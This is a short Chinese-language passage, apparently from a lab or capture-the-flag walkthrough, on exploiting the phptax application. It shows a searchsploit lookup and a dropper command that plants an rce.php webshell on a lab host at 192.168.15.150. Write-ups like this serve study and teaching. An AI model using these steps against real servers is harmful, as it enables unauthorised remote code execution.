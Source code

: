 
phptax

# 得到一个壳

让我们看看`searchsploit`是否知道这件事。

![](img/e2627b8bc8b2fb735a03cefdeb556b2d.png)

searchsploit phptax

太棒了。马上，我们看到有一个 metasploit 模块。我将检查其他两个选项，以尝试自动化程度较低的利用方式。

phptax RCE

为了让 dropper 执行，我必须安装一个 php curl 库并重启 apache

```
$ apt-get install php7.0-curl
$ /etc/init.d/apache2 restart
```

然后我就可以放下 webshell 了。

```
$ php shell.php -u [http://192.168.15.150:8080/phptax](http://192.168.15.150:8080/phptax)
```

> -u 指定主机

这个脚本将一个`rce.php` webshell 放到了`/phptax/data/`目录中。

![](img/ac25d08e4c4d2ac301c65689d4488cac.png)
